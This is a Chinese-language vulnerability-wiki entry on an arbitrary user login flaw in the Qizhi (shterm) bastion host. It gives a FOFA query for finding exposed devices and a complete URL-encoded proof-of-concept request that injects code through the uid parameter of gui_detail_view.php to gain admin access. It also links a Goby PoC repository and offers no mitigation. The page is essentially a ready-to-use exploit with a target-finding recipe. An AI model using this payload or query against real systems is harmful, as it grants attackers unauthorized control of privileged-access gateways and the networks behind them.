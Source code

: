 ```yaml
---
title: 齐治堡垒机 任意用户登录漏洞
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 齐治堡垒机
---
```


# 齐治堡垒机 任意用户登录漏洞

## 漏洞描述

齐治堡垒机 存在任意用户登录漏洞，访问特定的Url即可获得后台权限

## 漏洞影响

> [!NOTE]
>
> 齐治堡垒机

## FOFA

> [!NOTE]
>
> app="齐治科技-堡垒机"

## 漏洞复现

漏洞POC为

```
http://xxx.xxx.xxx.xxx/audit/gui_detail_view.php?token=1&id=%5C&uid=%2Cchr(97))%20or%201:%20print%20chr(121)%2bchr(101)%2bchr(115)%0d%0a%23&login=shterm
```

![](/img/20210924015128280931.png)

## Goby & POC

> [!NOTE]
>
> 已上传 https://github.com/PeiQi0/PeiQi-WIKI-POC Goby & POC 目录中
>
> shterm(QiZhi) Fortress Arbitrary User Login

![](/img/20210924015128557380.png)
